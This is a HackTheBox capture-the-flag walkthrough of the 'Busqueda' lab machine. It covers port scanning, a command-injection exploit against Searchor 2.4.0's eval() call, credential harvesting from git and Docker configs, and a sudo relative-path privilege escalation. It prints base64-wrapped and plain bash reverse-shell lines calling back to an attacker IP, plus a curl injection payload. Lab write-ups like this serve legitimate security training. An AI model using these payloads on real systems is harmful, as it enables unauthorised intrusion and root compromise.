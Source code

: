 # HTB - Busqueda

#### Ip: 10.10.11.208
#### Name: Busqueda
#### Rating: Easy

----------------------------------------------------------------------

![Busqueda.png](../assets/busqueda_assets/Busqueda.png)


### Enumeration

As always, lets kick things off by scanning all TCP ports with Nmap. Here I'll also use the `-sC` and `-sV` flags to use basic Nmap scripts and to enumerate versions too.

```text
┌──(ryan㉿kali)-[~/HTB/Busqueda]
└─$ sudo nmap -p- --min-rate 10000 10.10.11.208 -sC -sV 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-02-01 10:06 CST
Nmap scan report for 10.10.11.208
Host is up (0.074s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4fe3a667a227f9118dc30ed773a02c28 (ECDSA)
|_  256 816e78766b8aea7d1babd436b7f8ecc4 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://searcher.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: searcher.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.54 seconds
```

We can see the site is attempting to redirect to http://searcher.htb/ so lets add that to our `/etc/hosts` file.


Navigating to the site on port 80 we find a page with search functionality:

busqueda_site.png

At the bottom of the page we see it is running Flask as well as Searchor 2.4.0:

busqueda_version.png

Looking for exploits for searcher 2.4.0 we find this GitHub feauturing a bash arbitrary code injection exploit:

https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection

Per the GitHub ReadMe we see it is specifically exploiting the function call `eval()` in which it is able to execute system commands:

```python
@click.argument("query")
def search(engine, query, open, copy):
    try:
        url = eval( # <<< See here 
            f"Engine.{engine}.search('{query}', copy_url={copy}, open_web={open})"
        )
        click.echo(url)
        searchor.history.update(engine, query, url)
        if open:
            click.echo("opening browser...")
	  ...
```

The script injects:
```bash
rev_shell_b64=$(echo -ne "bash  -c 'bash -i >& /dev/tcp/$2/${port} 0>&1'" | base64)
evil_cmd="',__import__('os').system('echo ${rev_shell_b64}|base64 -d|bash -i'))
```

Into the function via a POST request using CURL:
```bash
curl -s -X POST $1/search -d "engine=Google&query=${evil_cmd}" 1> /dev/null
```

### Exploitation

We can exploit this vulnerability with the exploit script with no changes needed to the code:

busqueda_shell.png

getting a shell back as user svc.

We are now able to grab the user.txt flag:

busqueda_user.png

### Privilege Escalation

Looking more closely at the svc home folder we find a .gitconfig file:

```
svc@busqueda:~$ cat .gitconfig
cat .gitconfig
[user]
	email = cody@searcher.htb
	name = cody
[core]
	hooksPath = no-hooks
```

Lets hang onto this info and keep enumerating.

After loading up and running linpeas.sh to help enumerate a privilege escalation vector, we notice there is a gitea vhost running that was missed during enumeration. Lets add that to `/etc/hosts` and check it out:

```
10.10.11.208    searcher.htb gitea.searcher.htb
```

Heading to the gitea site we find a sign-in button:

busqueda_gitea.png

This seems like progress, but we still don't have a password for cody.

Going back to my shell for further enumeration I find a .git file in `/var/www/app` that has a config file containing cody's password:

busqueda_password.png

cody:jh1usoih2bkjaspwe92

Armed with this password lets see if we can use it to run `sudo -l` to check if we can run anything with elevated permissions:

```text
svc@busqueda:/var/www/app/.git$ sudo -l
[sudo] password for svc: 
Matching Defaults entries for svc on busqueda:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User svc may run the following commands on busqueda:
    (root) /usr/bin/python3 /opt/scripts/system-checkup.py *
```

We are unable to read this script:
```text
svc@busqueda:/var/www/app/.git$ cat /opt/scripts/system-checkup.py
cat: /opt/scripts/system-checkup.py: Permission denied
```
But trying to run it to read a file normally prohibted to lower level users gets us this error:
```text
svc@busqueda: sudo /usr/bin/python3 /opt/scripts/system-checkup.py /etc/shadow

Usage: /opt/scripts/system-checkup.py <action> (arg1) (arg2)

     docker-ps     : List running docker containers
     docker-inspect : Inpect a certain docker container
     full-checkup  : Run a full system checkup
```

We can view the docker containers:
```text
svc@busqueda: sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-ps  
CONTAINER ID   IMAGE                COMMAND                  CREATED         STATUS             PORTS                                             NAMES
960873171e2e   gitea/gitea:latest   "/usr/bin/entrypoint…"   13 months ago   Up About an hour   127.0.0.1:3000->3000/tcp, 127.0.0.1:222->22/tcp   gitea
f84a6b33fb5a   mysql:8              "docker-entrypoint.s…"   13 months ago   Up About an hour   127.0.0.1:3306->3306/tcp, 33060/tcp               mysql_db
```

Lets inspect the gitea container. To do that we'll also need to declare the format:
```
Usage: /opt/scripts/system-checkup.py docker-inspect <format> <container_name>
```
I had to reference the docker docs (ha) for this. I am super bad with Docker and it is definitely something I need to learn more about:

busqueda_docker_docs.png

```text
svc@busqueda: sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect --format='{{json .Config}}' gitea

--format={"Hostname":"960873171e2e","Domainname":"","User":"","AttachStdin":false,"AttachStdout":false,"AttachStderr":false,"ExposedPorts":{"22/tcp":{},"3000/tcp":{}},"Tty":false,"OpenStdin":false,"StdinOnce":false,"Env":["USER_UID=115","USER_GID=121","GITEA__database__DB_TYPE=mysql","GITEA__database__HOST=db:3306","GITEA__database__NAME=gitea","GITEA__database__USER=gitea","GITEA__database__PASSWD=yuiu1hoiu4i5ho1uh","PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin","USER=git","GITEA_CUSTOM=/data/gitea"],"Cmd":["/bin/s6-svscan","/etc/s6"],"Image":"gitea/gitea:latest","Volumes":{"/data":{},"/etc/localtime":{},"/etc/timezone":{}},"WorkingDir":"","Entrypoint":["/usr/bin/entrypoint"],"OnBuild":null,"Labels":{"com.docker.compose.config-hash":"e9e6ff8e594f3a8c77b688e35f3fe9163fe99c66597b19bdd03f9256d630f515","com.docker.compose.container-number":"1","com.docker.compose.oneoff":"False","com.docker.compose.project":"docker","com.docker.compose.project.config_files":"docker-compose.yml","com.docker.compose.project.working_dir":"/root/scripts/docker","com.docker.compose.service":"server","com.docker.compose.version":"1.29.2","maintainer":"maintainers@gitea.io","org.opencontainers.image.created":"2022-11-24T13:22:00Z","org.opencontainers.image.revision":"9bccc60cf51f3b4070f5506b042a3d9a1442c73d","org.opencontainers.image.source":"https://github.com/go-gitea/gitea.git","org.opencontainers.image.url":"https://github.com/go-gitea/gitea"}}
```

Nice! Looks like we've discovered another credential: yuiu1hoiu4i5ho1uh

We can use this to succesfully log into the gitea site as the administrator:

busqueda_login.png

Taking a look at the sytem-checkup.py file we see it also is executing the full-checkup.sh file in `/opt/scripts`

```python
    elif action == 'full-checkup':
        try:
            arg_list = ['./full-checkup.sh']
            print(run_command(arg_list))
            print('[+] Done!')
```
Because this doesn't contain the full path for full-checkup.sh, we may be able to create our own malicious file calle full-checkup.sh, and execute it using our sudo permissions.

Lets create a file called full-checkup.sh containing a bash reverse shell:
```bash
#! /bin/bash
bash -i >& /dev/tcp/10.10.14.60/4444 0>&1
```

We can make it executable with:
```bash
chmod +x full-checkup.sh
```

And finally we can set up a nc listener, and execute it using our sudo permissions:

```text
sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
```

This catches us a shell back as root and we can grab the final flag:

busqueda_root.png

Thanks for folllowing along!

-Ryan





